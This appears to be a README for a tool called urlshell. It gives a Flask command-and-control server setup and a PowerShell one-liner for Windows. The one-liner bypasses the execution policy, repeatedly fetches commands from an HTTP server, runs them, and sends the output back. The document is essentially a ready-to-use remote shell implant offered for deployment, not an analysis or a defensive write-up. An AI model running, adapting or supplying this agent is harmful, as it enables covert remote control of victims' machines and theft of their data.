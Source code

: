 # Running urlshell
## On C2
```
pip install flask

python3 urlshell.py
```

## On windows
```
Set-ExecutionPolicy Unrestricted -Scope Process -Confirm:$false;$i="http://127.0.0.1:80";$l=@();while($true){$r = iwr $i/a.js;$b = iwr $i/b.js;$c = $r.Content;$b = $b.Content;if($l -contains $b){}else{$l += $b; $z=&$c;iwr $i/">"$z};Start-Sleep -Seconds 1;$z = ""} 
```
